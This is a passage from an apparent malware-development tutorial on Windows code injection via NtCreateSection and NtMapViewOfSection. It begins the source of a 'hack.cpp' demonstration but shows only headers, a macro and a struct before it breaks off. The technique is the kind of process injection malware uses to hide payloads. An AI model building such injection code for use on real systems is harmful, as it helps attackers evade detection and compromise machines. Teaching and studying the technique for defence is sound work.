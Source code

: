 Finally, I used `ZwUnmapViewOfSection` for clean up:   

![code injection 9](./images/32/2021-12-15_18-25.png){width="80%"}    

![code injection 10](./images/32/2021-12-15_18-32.png){width="80%"}    

So full code which demonstrates this technique is:    
```cpp
/*
 * hack.cpp
 * advanced code injection technique via 
 * NtCreateSection and NtMapViewOfSection
 * author @cocomelonc
 * https://cocomelonc.github.com/tutorial/
 2021/12/13/malware-injection-12.html
*/
#include <iostream>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")
#pragma comment(lib, "advapi32.lib")

#define InitializeObjectAttributes(p,n,a,r,s) { \
  (p)->Length = sizeof(OBJECT_ATTRIBUTES); \
  (p)->RootDirectory = (r); \
  (p)->Attributes = (a); \
  (p)->ObjectName = (n); \
  (p)->SecurityDescriptor = (s); \
  (p)->SecurityQualityOfService = NULL; \
}

// dt nt!_UNICODE_STRING
typedef struct _LSA_UNICODE_STRING {
  USHORT            Length;
```